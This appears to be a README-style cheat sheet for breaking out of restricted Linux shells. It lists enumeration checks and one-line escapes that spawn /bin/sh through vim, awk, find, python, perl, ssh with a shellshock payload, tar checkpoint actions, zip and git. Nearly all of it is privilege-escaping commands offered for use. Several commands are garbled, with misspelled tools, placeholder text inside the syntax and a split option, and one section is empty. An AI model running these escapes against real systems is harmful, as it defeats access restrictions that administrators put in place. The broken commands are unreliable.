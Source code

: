 ### Test 
```
aah user_name@[victim_ip] bash
```

### Enumarate 
- command 
  - cd
  - ls
  - echo

- operators 
  - >
  - <
  - >>
  - |

- programming languages
  - perl
  - ruby
  - python
  - php
  
- commands as root
  - sudo -l

- check files with suid

- check env variable
  - run env
  - printenv

- check shell
  - echo $SHELL
  
### Common Techniques
- '/' run /bin/sh or /bin/bash
- 'cp' copy /bin/sh or /bin/bash into your directory
- 'ftp' run ftp>!/bin/bash or ftp>!/bin/sh
- 'gdb' run gdb>!/bin/bash or gdb>!/bin/sh
- 'vim' run vim>!/bin/bash or vim>!/bin/sh
- 'rvim' run rvim>:python import os;os.system("bin/bash")
- 'scp' run scp>scp -S /path/your/script x y:
- 'awk' run awk>awk 'BEGIN {system("/bin/sh or /bin/bash")}
- 'find' run find>find / -name test -exec /bin/sh or /bin/bash \;

### Programming Languages Techniques
- 'except' run except> except spawn sh thne sh
- 'python' run python -c 'import os;os.system("/bin/sh")'
- 'php' run php>php -a then exec("sh -i");
- 'perl' run perl>perl -e 'exec"/bin/sh";'
- 'lua' run lua>os.execute('/bin/sh')
- 'ruby' run ruby>exec "/bin/sh"

### Advance Techniques
- 'ssh' run ssh>ssh username@IP - t "/bin/sh" or "/bin/bash"
- 'ssh2' run ssh2>ssh username@IP -t "bash --noprofile"
- 'ssh3' run ssh3>ssh username@IP -t "() { :; }; /bin/bash" (shellshock)
- 'ssh4' run ssh4>ssh -o ProxyCommand="sh -c /tmp/yourfile.sh" 127.0.0.1 (SUID)
- 'tar' run tar>tar cf /dev/null testfile --checkpoint=1 --checkpoint- action=exec=/bin/bash
- 'zip' run zip>zip /tmp/test.zip /tmp/test -T --unzip-command="sh -c /bin/bash"
- 'pico' run pico>pico -s "/bin/bash" then you can write /bin/bash and then CTRL + T
- 'git' run git>git help status > you can run it then !/bin/bash

### PATH override


### References
- https://www.exploit-db.com/docs/english/44592-linux-restricted-shell-bypass-guide.pdf
